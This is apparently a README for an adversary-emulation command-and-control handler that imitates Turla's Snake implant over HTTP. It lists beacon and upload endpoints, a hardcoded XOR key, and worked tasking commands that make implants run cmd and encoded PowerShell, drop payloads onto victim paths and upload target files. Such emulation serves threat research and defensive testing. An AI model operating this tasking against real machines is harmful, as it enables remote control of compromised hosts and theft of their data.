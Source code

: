 # Snake HTTP handler

The Snake HTTP C2 handler is the server-side counterpart for the Snake implant and is specifically designed to interact with it over HTTP.

## Components

The handler consists of an HTTP web server that listens on a specified address/port and serves the following URL endpoints:

- `GET /PUB/{identifier}`, where `{identifier}` is either a specific resource that the implant is requesting or the identifier for the implant.
Requesting a resource of `home.html` indicates that the implant is performing a heartbeat check to see if the server is up, in which case the server will respond with `1`. Otherwise, `{identifier}` is treated as the implant ID, and the server will use this value to determine if a new session is established or if an existing implant is checking in for additional tasking.
- `POST /IMAGES/3/{instruction_id}` for submitting command output, implant logs, or a generic file upload for the instruction identified by `{instruction_id}`. The C2 server will determine if the instruction ID is for an assigned file upload - if so, the received data is stored under the same filename on the C2 server. If the instruction ID is not linked to an assigned file upload, the C2 server checks if it's one of the hardcoded log file IDs, in which case it accepts the upload as the associated log file. Otherwise, the C2 server assumes that the upload contains command output for the instruction. In this case, the C2 server will log the received command output if the instruction ID is mapped to an implant ID. On successful upload, the server will respond with `1`. Note that when accepting log fiel uploads, the server will decode and decrypt each log line before writing the destination file on the server-side.
  - Regular C2 logs will be uploaded to `/IMAGES/3/62810421015953103444` and saved under `files/C2Log.YYYY-MM-DD-HH-MM-SS.log`, where the timestamp represents the time the log was received. This prevents multiple log file uploads from overwring previous ones.
  - Execution logs will be uploaded to `/IMAGES/3/23329841273669992682` and saved under `files/ExecutionLog.YYYY-MM-DD-HH-MM-SS.log`
  - Pipe server logs will be uploaded to `/IMAGES/3/59463656487865612747` and saved under `files/PipeServerLog.YYYY-MM-DD-HH-MM-SS.log`
  - Pipe client logs will be uploaded to `/IMAGES/3/16488587954892310865` and saved under `files/PipeClientLog.YYYY-MM-DD-HH-MM-SS.log`
- `GET /IMAGES/3/{instruction_id}` to retrieve the payload associated with the given instruction ID. If no instruction with the ID is found, the C2 server will respond with an internal server error message. Note that the implant must be tasked with a payload download instruction before requesting the payload.

### Encryption

Turla has used XOR encryption for C2 communications with Snake<sup>[1](https://artemonsecurity.com/snake_whitepaper.pdf)</sup>, and we use a different XOR key:

```
1f903053jlfajsklj39019013ut098e77xhlajklqpozufoghi642098cbmdakandqiox536898jiqjpe6092smmkeut02906
```

The C2 handler uses XOR encryption in the following scenarios:

- encrypting beacon responses containing tasking
- encrypting payloads sent to implant
- decrypting command output received from implant
- decrypting log files and other file uploads received from implant

## Usage

### Configuration

To enable and configure the Snake HTTP handler within the control server, edit the `config/handler_config.yml` from the main C2 server repo.
Adjust the Snake HTTP entry as needed.

Example:

```
snakehttp:
  host: 10.0.2.7
  port: 80
  enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the Snake handler:

```
sudo ./controlServer
```

### Tasking Implants

To register or receive tasking for an implant session, the Snake HTTP handler expects a `GET` request for `/PUB/{identifier}`, where `{identifier}` is the implant ID. If this is the first time that the Snake HTTP handler recognizes the implant with id `{identifier}`, then it will set up a new session within the internal C2 REST server and then begin tasking the implant upon subsequent `GET` requests to the same endpoint.

For example:

```
curl http://192.168.0.4:8080/PUB/abcd # First request, registers a new implant session with ID "abcd". Returns empty task.
curl http://192.168.0.4:8080/PUB/abcd # Second request. Session for "abcd" already exists, returns a task if available, otherwise empty task.
```

As with other C2 handlers, implant tasking is performed by sending requests to the internal REST server using the `evalsC2client.py` script.
The Snake HTTP handler will allow operators to task the following command types using a JSON dict payload format.

The JSON dict can contain the following fields:

- `type` - command type code that specifies the type of command to send (e.g. execute a process, download a file, upload a file). Must be an integer
- `command` - for type codes dealing with `cmd.exe` or powershell execution, this string represents the command to run. For example, `whoami /all` or `get-childitem .`
- `file` - for the payload download type code (`4`), this represents the filename to request from the C2 server. For the file upload task code (`5`), this represents the file path of the local file to upload.
- `dest` - for the payload download type code (`4`), this represents the destination file path to save the payload.
- `proc` - for the process execution type code (`3`), this represents the binary name/path to execute (e.g. `whoami.exe`)
- `args` - for the process execution type code (`3`), this represents the arguments to execute the process with (e.g. `/all` for `whoami.exe`)
- `runas` - for process or command execution tasks, this represents the user to create the process under (e.g. `mydomain\dummyuser`)

Below are examples of each type code:

- `{"type": 1, "command": "..."}` or `{"type": 1, "command": "...", "runas":"domain\user"}` - the command type code `01` will have the implant execute a `cmd.exe` command with the provided args. Note that a command is required for task type `1`. The implant will send the command output to the C2 server. If a username is provided via the `runas` key, the command process will be created under that user if possible.
- `{"type": 2, "command": "..."}` - the command type code `02` will have the implant execute a `powershell.exe` command with the provided args. Note that a command is required for task type `2`. The command will be encoded to UTF-16LE and then base64 encoded so that the implant can run it via `powershell.exe -nol -noni -nop -enc`. The implant will send output to the C2 server afterwards. If a username is provided via the `runas` key, the command process will be created under that user if possible.
- `{"type": 3, "proc": path_to_binary_to_execute}` or `{"type": 3, "proc": path_to_binary_to_execute, "args": "arg1 arg2 ... argN"}` - the task type code `3` will instruct the implant to execute the binary at the provided path and with the provided args, if any args are provided. The implant will send output to the C2 server afterwards. If a username is provided via the `runas` key, the command process will be created under that user if possible.
- `{"type": 4, "file": "payload_to_download", "dest": "dest_path_on_victim"}` - the task type `4` will have the implant request a file download from the C2 server for `payload_to_download`, and the file will be saved as `dest_path_on_victim`, or the snake home directory if only a file name is specified. To have the file downloaded to the current directory, use the `.\` path prefix (e.g. `.\filename`).
- `{"type": 5, "file": "path_to_file_to_upload"}` - the task type `05` will request the implant to upload a local file from the target machine, specified by `path_to_file_to_upload`
- `{"type": 6}` - the task type `6` will request the implant to upload its logs.

Examples of valid tasking:

```
./evalsC2client.py --set-task <guid> '{"type": 1, "command": "whoami /all", "runas":"testdomain\\testuser"}'
./evalsC2client.py --set-task <guid> '{"type": 1, "command": "ping 1.2.3.4"}'
./evalsC2client.py --set-task <guid> '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-ChildItem somedir -Recurse"}'
./evalsC2client.py --set-task <guid> '{"type": 3, "proc": "executable.exe", "args":"arg1 arg2 arg3"}'
./evalsC2client.py --set-task <guid> '{"type": 3, "proc": "C:\\path to my\\executable.exe"}'
./evalsC2client.py --set-task <guid> '{"type": 4, "file": "payload.exe", "dest":"C:\\Users\\Public\\payload.exe"}'
./evalsC2client.py --set-task <guid> '{"type": 4, "file": "payload.exe", "dest":"payload.exe"}'
./evalsC2client.py --set-task <guid> '{"type": 5, "file": "C:\\users\\public\\to_upload.txt"}'
./evalsC2client.py --set-task <guid> '{"type": 6}'
```

Examples of invalid tasking:

```
./evalsC2client.py --set-task <guid> '{"type": 1}' # 01 requires a command
./evalsC2client.py --set-task <guid> '{"type": 2}' # 02 requires a command
./evalsC2client.py --set-task <guid> '{"type": 3}' # 03 requires a command
./evalsC2client.py --set-task <guid> '{"type": 4}' # 04 requires payload information
./evalsC2client.py --set-task <guid> '{"type": 4, "file":"testingfile"}' # 04 requires both payload name and destination path/name
./evalsC2client.py --set-task <guid> '{"type": 5} # 05 requires a filename to upload
./evalsC2client.py --set-task <guid> '{"type": 12, "random":"asdb"}' # unsupported task type code
```

## Decrypting Logs

If you need to decrypt Snake log files and you don't have a responding or live implant, you can transfer the log files from the victim machine to the C2 server machine and use the `decrypt_logs.py` utility in this folder:

```
python3 decrypt_logs.py -p /path/to/log -o /path/to/output/file
```

## CTI References

1. <https://artemonsecurity.com/snake_whitepaper.pdf>
